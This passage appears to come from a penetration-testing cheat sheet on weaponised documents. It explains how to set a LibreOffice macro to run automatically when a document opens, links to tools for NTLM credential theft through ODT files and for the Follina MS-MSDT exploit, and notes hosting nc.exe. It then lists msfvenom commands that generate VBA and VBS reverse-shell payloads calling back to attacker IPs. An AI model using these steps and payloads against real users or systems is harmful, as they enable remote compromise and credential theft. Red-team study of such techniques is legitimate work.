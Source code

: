 We save the changes on the module and we close that window.

Now we have to enable the event to run this module when the document is open. We go to **Tools>Customize>Events** and then we go to Open **Document** and assign our macro:

<figure><img src="../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

We press OK and save the document.

### NTLM Credential Theft via malicious ODT Files

[https://secureyourit.co.uk/wp/2018/05/01/creating-malicious-odt-files/](https://secureyourit.co.uk/wp/2018/05/01/creating-malicious-odt-files/)

### Create macros on Linux

[https://github.com/X0RW3LL/Minitrue](https://github.com/X0RW3LL/Minitrue)

### MS-MSDT Follina

better this [https://github.com/chvancooten/follina.py](https://github.com/chvancooten/follina.py) than John Hammond's

[https://github.com/JohnHammond/msdt-follina](https://github.com/JohnHammond/msdt-follina)

{% hint style="info" %}
Code might be tweaked to host nc.exe on a different port.
{% endhint %}

## VBA/VBS

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.113.238 LPORT=445 -f vbs -o evil.vbs
```

## Windows Library Files
